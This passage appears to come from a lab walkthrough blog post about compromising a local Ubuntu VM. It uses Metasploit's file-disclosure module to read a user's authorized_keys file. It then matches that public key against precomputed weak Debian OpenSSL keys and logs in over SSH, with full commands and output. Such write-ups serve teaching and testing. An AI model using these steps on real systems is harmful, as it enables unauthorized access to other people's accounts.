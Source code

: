 From here you can crack the hashes with our pal, John the Ripper, but I won't go into that, because a Nessus scan revealed a shorter route to hacking the target.

### Exploit

The host is vulnerable to the Debian OpenSSH/OpenSSL Package Random Number Generator Weakness that allows bruteforcing with precalculated SSH keys. You can read more about it [here](https://github.com/g0tmi1k/debian-ssh), and also download the vulnerable keys. The vulnerability stems from the fact that the random data used by the algorithm is the PID of the process generating the key. 

Using the earlier file disclosure module of Metasploit, it's possible to search the contents of the <code>.ssh/authorized_keys</code> file for each user. I didn't find anything for root, but obama has been in the house!

``` plain
msf auxiliary(file_disclosure) > set RPATH /home/obama/.ssh/authorized_keys
RPATH => /home/obama/.ssh/authorized_keys
msf auxiliary(file_disclosure) > run

[*] [2016.02.29-05:02:52] Attempting to retrieve /home/obama/.ssh/authorized_keys...
[*] [2016.02.29-05:02:52] The server returned: 200 Document follows
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB60JctxC6BDxjqQXggf0ptx2wrcAw09HayPxMnKv+BFiGA/I1yXn5EqUfuLSDcTwiIeVSvqJl3NNI5HQUUc6KGlwrhCW464ksARX2ZAp9+6Yu7DphKZmtF5QsWaiJc7oV5il89zltwBDqR362AH49m8/3OcZp4XJqEAOlVWeT5/jikmke834CyTMlIcyPL85LpFw2aXQCJQIzvkCHJAfwTpwJTugGMB5Ng73omS82Q3ErbOhTSa5iBuE86SEkyyotEBUObgWU3QW6ZMWM0Rd9ErIgvps1r/qpteMMrgieSUKlF/LaeMezSXXkZrn0x+A2bKsw9GwMetQ== obama@ubuntuvm
[*] Auxiliary module execution completed
```

So we know obama's public key, and we also have the vulnerable pregenerated keys that we downloaded earlier. So it's possible to search for this public key among all those keys:

``` plain
root@pwnbox:~/debian-ssh/common_keys/rsa/2048#grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB60JctxC6BDxjqQXggf0ptx2wrcAw09HayPxMnKv+BFiGA/I1yXn5EqUfuLSDcTwiIeVSvqJl3NNI5HQUUc6KGlwrhCW464ksARX2ZAp9+6Yu7DphKZmtF5QsWaiJc7oV5il89zltwBDqR362AH49m8/3OcZp4XJqEAOlVWeT5/jikmke834CyTMlIcyPL85LpFw2aXQCJQIzvkCHJAfwTpwJTugGMB5Ng73omS82Q3ErbOhTSa5iBuE86SEkyyotEBUObgWU3QW6ZMWM0Rd9ErIgvps1r/qpteMMrgieSUKlF/LaeMezSXXkZrn0x+A2bKsw9GwMetQ==
dcbe2a56e8cdea6d17495f6648329ee2-4679.pub
```

Great! A match has been found! I used to ssh on the box as obama (wouldn't it be nice to be able to do this on an actual White House computer.. xD)

``` plain
root@pwnbox:~/debian-ssh/common_keys/rsa/2048#ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 obama@192.168.80.150
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Mon Feb 29 04:44:43 2016 from 192.168.80.144
obama@ubuntuvm:~$
```
